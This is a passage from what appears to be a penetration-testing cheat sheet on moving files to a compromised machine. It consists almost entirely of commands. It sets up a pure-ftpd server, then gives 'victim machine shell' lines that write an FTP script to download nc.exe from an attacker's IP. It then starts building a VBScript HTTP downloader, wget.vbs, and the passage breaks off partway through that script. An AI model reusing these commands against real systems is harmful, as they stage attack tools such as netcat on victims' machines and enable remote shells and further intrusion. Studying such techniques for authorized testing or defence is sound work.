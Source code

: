 		ln -s ../conf/PureDB 60pdb

		mkdir -p /ftphome

		chown -R ftpuser:ftpgroup /ftphome

		/etc/init.d/pure-ftpd restart

	(UNA TANTUM) chmod 755 setup-ftp.sh

On victim machine shell:

	echo open <[IP]> 21 > ftp.txt

	echo USER demo >> ftp.txt

	echo ftp >> ftp.txt

	echo bin >> ftp.txt

	echo GET nc.exe >> ftp.txt

	echo bye >> ftp.txt

	ftp -v -n -s:ftp.txt

<b>VBScript (in Windows XP, 2003)</b>

On victim machine shell:

	echo strUrl = WScript.Arguments.Item(0) > wget.vbs &

	echo StrFile = WScript.Arguments.Item(1) >> wget.vbs &

	echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs &

	echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs &

	echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs &

	echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs &

	echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs &

	echo Err.Clear >> wget.vbs &

	echo Set http = Nothing >> wget.vbs &

	echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs &

	echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs &

	echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs &

	echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs &

	echo http.Open "GET", strURL, False >> wget.vbs &

	echo http.Send >> wget.vbs &

	echo varByteArray = http.ResponseBody >> wget.vbs &

	echo Set http = Nothing >> wget.vbs &

	echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs &
